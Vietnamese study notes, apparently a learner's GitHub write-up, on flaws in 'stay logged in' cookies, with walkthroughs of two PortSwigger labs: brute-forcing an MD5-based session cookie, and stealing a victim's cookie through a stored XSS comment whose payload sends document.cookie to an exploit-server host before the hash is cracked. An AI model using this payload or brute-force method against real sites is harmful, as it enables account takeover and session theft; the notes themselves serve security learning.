 ![image](https://github.com/user-attachments/assets/9cbad819-daa6-49d4-ab0a-0d158dcb0feb)I. Lý thuyết<br>
- ngoài chức năng login cơ bản, hầu hết web đều cung cấp chức năng bổ sung để user quản lý acc của họ
- VD: user can thay đổi hoặc đặt lại password khi quên
- -> các cơ chế này can tạo ra lỗ hổng mà attacker can khai thác
- web thg cẩn thận để tránh các lỗ hổng phổ biến trong trang login của họ, nhưng bn cần thực hiện các bc tương tự để đảm bảo rằng các chức năng liên quan cũng mạnh mẽ như nhau
- này là đặc bt quan trọng khi mà attacker can tạo acc của riêng họ và do đó can truy cập để nghiên cứu các trang bổ sung này<br>

II. Keeping users logged in<br>
1. Lý thuyết<br>
- 1 tính năng phổ biến là tùy chọn duy trì trạng thái login kể cả sau khi đóng phiên browser
- nó thường là hộp kiểm đc gắn nhãn như "Remember me" or "Keep me logged in"
- chức năng này đc triển khai bằng cách tạo 1 loại mã thông báo remember me đc lưu trữ trong 1 cookie liên tục
- có đc cookie này -> can bỏ qua toàn bộ quá trình login -> cách tốt nhất là ko thể đoán đc cookie này
- tuy nhiên nh web tạo cookie này dựa trên sự kết hợp can đoán của các giá trị tĩnh như username và dấu time, thậm chí còn xài password như 1 phần của cookie 
- cách tiếp cận này vô cùng nguy hiểm nếu attacker can tạo tài khoản của mình -> nghiên cứu cookie của mình -> đoán cách cookie được tạo
- sau khi đoán đc công thức, attacker brute-force cookie của các ng dùng khác và lấy quyền truy cập vào acc của họ
- một vài web cho rằng nếu cookie đc mã hóa thì sẽ ko thể đoán cho dù nó đc tạo từ giá trị tĩnh
- điều này can đúng nếu đc thực hiện chính xác và xài mã hóa phức tạp, ngay cả xài mã hóa như hàm băm 1 chiều cx ko hoàn toàn an toàn
- nếu attacker can dễ dàng đoán đc thuật toán băm và salt ko đc xài thì chúng can tấn công cookie bằng cách băm wordlist của họ
- phương pháp này can đc xài để vượt qua lim số lần login nếu chúng ko đc xài cho việc đoán cookie
- kể cả attacker ko thể tự tạo acc họ vẫn có thể khai thác lỗ hổng này
- bằng kĩ thuật thông thường như XSS, attacker can đánh cắp cookie của acc khác và suy ra cách cookie đc tạo
- nếu web đc xây dựng bằng framework nguồn mở thì chi tiết chính về c.trúc cookie can đc ghi lại công khai
- trong 1 số trh hiếm hoi can lấy đc password từ cookie
- các phiên bản băm của list password phổ biến có sẵn trực tuyến -> nếu pasword của user có ở 1 trong các list -> giải mã đơn giản
- -> salt rất quan trọng trong mã hóa hiệu quả<br>

2. Lab: Brute-forcing a stay-logged-in cookie<br>
This lab allows users to stay logged in even after they close their browser session. The cookie used to provide this functionality is vulnerable to brute-forcing.

To solve the lab, brute-force Carlos's cookie to gain access to his "My account" page.<br>

Your credentials: wiener:peter<br>
Victim's username: carlos<br>
Candidate passwords: https://portswigger.net/web-security/authentication/auth-lab-passwords<br>

3. Giải<br>
- B1: login tài khoản đc cung cấp và duy trì trạng thái login của acc -> thu được phiên: d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw<br>

![image](https://github.com/user-attachments/assets/f31fd1dd-65c6-4a81-a459-a0183776f833)<br>

- B2: giải mã đoạn mã thu được: wiener:51dc30ddc473d43a6011e9ebba6ca770 -> chuỗi sau dấu ':' là được băm<br>

![image](https://github.com/user-attachments/assets/4af87c04-1fd5-4791-a923-062d9edc5aa9)<br>

- B3: logout acc đẻ thu request -> dùng cho tấn công<br>

![image](https://github.com/user-attachments/assets/4d44d526-cc2c-4783-99d9-db5ad583cf13)<br>

- B4: test thử tấn công với acc được cho<br>

![image](https://github.com/user-attachments/assets/774aec88-f917-4929-8144-21326a33433e)<br>

![image](https://github.com/user-attachments/assets/8c14efd3-0cb6-48ad-b241-58e91239e7a1)<br>

- B5: tấn công -> lấy phản hồi 302 -> show response in browser -> login<br>

![image](https://github.com/user-attachments/assets/a8fc50d6-e0ff-4309-9c2c-ac5246fea631)<br>

- B6: brute-force xài cú pháp của phiên và băm list password -> login đc sẽ có phản hồi: Update email -> dùng để lọc<br>

![image](https://github.com/user-attachments/assets/d8a4dd1e-f2a6-45e3-ac86-15529541ff59)<br>

![image](https://github.com/user-attachments/assets/225d9579-14ce-46fe-b453-507c8e4d6832)<br>

- B7: lấy phản hồi -> login<br>

![image](https://github.com/user-attachments/assets/66ba1fe7-aa6b-46d8-af11-2a40b17f7534)<br>

4. Lab: Offline password cracking<br>
This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's stay-logged-in cookie and use it to crack his password. Then, log in as carlos and delete his account from the "My account" page.<br>

Your credentials: wiener:peter<br>
Victim's username: carlos<br>

5. Giải<br>
- B1: login vào acc đc cho và thu đc<br>

![image](https://github.com/user-attachments/assets/b9318590-e6b9-41b5-a38a-757dd7a5ade8)<br>

- B2: phân tích cấu trúc session: d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw
- -> đoạn mã đc mã hóa base64 và băm md5<br>

![image](https://github.com/user-attachments/assets/25f8a61f-a0e2-4c44-9e1f-c11b29ca8d94)<br>

- B4: thử attack với acc đã cho -> xác định đc cấu trúc password (trong hình)<br>

![image](https://github.com/user-attachments/assets/b56c127c-2c29-4557-8315-3084d4386dc5)<br>

- B5: đến 1 blog và đăng 1 cmt có payload XSS: <script>document.location='//exploit-0a5d006c041ce5ea81c2f11801b7004a.exploit-server.net/'+document.cookie</script><br>

![image](https://github.com/user-attachments/assets/96495326-2dee-45b0-87cc-12d90a33b749)<br>

![image](https://github.com/user-attachments/assets/e24b4e2c-3cff-4bb4-a950-650fde453bc2)<br>

- B5: thu kết quả <br>

![image](https://github.com/user-attachments/assets/5411d07c-9857-4f89-bc70-823547313281)<br>

- Giải mã session: Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz<br>

![image](https://github.com/user-attachments/assets/227e06af-0a76-45d7-aa46-295865442b8e)<br>

![image](https://github.com/user-attachments/assets/3b10e2f0-746f-474f-a2f5-89590b60c9c1)<br>

- tool crack: https://crackstation.net/
